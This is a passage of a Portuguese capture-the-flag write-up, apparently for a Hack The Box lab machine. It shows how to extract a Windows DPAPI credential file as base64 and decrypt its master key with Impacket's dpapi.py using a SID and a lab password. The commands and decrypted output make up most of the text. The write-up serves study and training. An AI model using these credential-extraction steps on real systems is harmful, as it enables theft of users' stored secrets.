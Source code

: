```powershell
Mode                LastWriteTime     Length Name                                                                                                                                           
----                -------------     ------ ----                                                                                                                                           
-a-hs         8/22/2018  10:18 PM        538 51AB168BE4BDB3A603DADE4F8CA81290                                                                                                               


PS C:\Users\security\AppData\Roaming\Microsoft\Credentials> [convert]::ToBase64String((Get-Content -path "51AB168BE4BDB3A603DADE4F8CA81290" -Encoding byte))
AQAAAA4CAAAAAAAAAQAAANCMnd8BFdERjHoAwE/Cl+sBAAAALsOSB6VI40+LQ9k9ZFkFgAAAACA6AAAARQBuAHQAZQByAHAAcgBpAHMAZQAgAEMAcgBlAGQAZQBuAHQAaQBhAGwAIABEAGEAdABhAA0ACgAAABBmAAAAAQAAIAAAAPW7usJAvZDZr308
LPt/MB8fEjrJTQejzAEgOBNfpaa8AAAAAA6AAAAAAgAAIAAAAPlkLTI/rjZqT3KT0C8m5Ecq3DKwC6xqBhkURY2t/T5SAAEAAOc1Qv9x0IUp+dpf+I7c1b5E0RycAsRf39nuWlMWKMsPno3CIetbTYOoV6/xNHMTHJJ1JyF/4XfgjWOmPrXOU0FXazMz
KAbgYjY+WHhvt1Uaqi4GdrjjlX9Dzx8Rou0UnEMRBOX5PyA2SRbfJaAWjt4jeIvZ1xGSzbZhxcVobtJWyGkQV/5v4qKxdlugl57pFAwBAhDuqBrACDD3TDWhlqwfRr1p16hsqC2hX5u88cQMu+QdWNSokkr96X4qmabp8zopfvJQhAHCKaRRuRHpRpuh
fXEojcbDfuJsZezIrM1LWzwMLM/K5rCnY4Sg4nxO23oOzs4q/ZiJJSME21dnu8NAAAAAY/zBU7zWC+/QdKUJjqDlUviAlWLFU5hbqocgqCjmHgW9XRy4IAcRVRoQDtO4U1mLOHW6kLaJvEgzQvv2cbicmQ==
PS C:\Users\security\AppData\Roaming\Microsoft\Credentials>
```

> Desconvertendo para binário

```bash
echo "AQAAAA4CAAAAAAAAAQAAANCMnd8BFdERjHoAwE/Cl+sBAAAALsOSB6VI40+LQ9k9ZFkFgAAAACA6AAAARQBuAHQAZQByAHAAcgBpAHMAZQAgAEMAcgBlAGQAZQBuAHQAaQBhAGwAIABEAGEAdABhAA0ACgAAABBmAAAAAQAAIAAAAPW7usJAvZDZr308
LPt/MB8fEjrJTQejzAEgOBNfpaa8AAAAAA6AAAAAAgAAIAAAAPlkLTI/rjZqT3KT0C8m5Ecq3DKwC6xqBhkURY2t/T5SAAEAAOc1Qv9x0IUp+dpf+I7c1b5E0RycAsRf39nuWlMWKMsPno3CIetbTYOoV6/xNHMTHJJ1JyF/4XfgjWOmPrXOU0FXazMz
KAbgYjY+WHhvt1Uaqi4GdrjjlX9Dzx8Rou0UnEMRBOX5PyA2SRbfJaAWjt4jeIvZ1xGSzbZhxcVobtJWyGkQV/5v4qKxdlugl57pFAwBAhDuqBrACDD3TDWhlqwfRr1p16hsqC2hX5u88cQMu+QdWNSokkr96X4qmabp8zopfvJQhAHCKaRRuRHpRpuh
fXEojcbDfuJsZezIrM1LWzwMLM/K5rCnY4Sg4nxO23oOzs4q/ZiJJSME21dnu8NAAAAAY/zBU7zWC+/QdKUJjqDlUviAlWLFU5hbqocgqCjmHgW9XRy4IAcRVRoQDtO4U1mLOHW6kLaJvEgzQvv2cbicmQ==" | base64 -d > Credentials
```

    Com os arquivos em mãos, podemos utilizar algumas maneiras para descodar os arquivos, sendo elas Mimikatz, DPAPI.py etc.

    Neste CTF, será usado o DPAPI.py do Impacket.

    Para descriptografarmos a masterkey precisamos dos seguintes itens:

- MasterKey File

- SID

- Senha/hash de algum usuário



> Decrypt MasterKey

```python
python3 dpapi.py masterkey -file ~/Desktop/hackthebox/machines/to-do/access/MASTERKEY -sid S-1-5-21-953262931-566350628-63446256-1001 -password 4Cc3ssC0ntr0ller 
Impacket v0.10.1.dev1+20220606.123812.ac35841f - Copyright 2022 SecureAuth Corporation

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 0792c32e-48a5-4fe3-8b43-d93d64590580
Flags       :        5 (5)
Policy      :        0 (0)
MasterKeyLen: 000000b0 (176)
BackupKeyLen: 00000090 (144)
CredHistLen : 00000014 (20)
DomainKeyLen: 00000000 (0)

Decrypted key with User Key (SHA1)
Decrypted key: 0xb360fa5dfea278892070f4d086d47ccf5ae30f7206af0927c33b13957d44f0149a128391c4344a9b7b9c9e2e5351bfaf94a1a715627f27ec9fafb17f9b4af7d2
```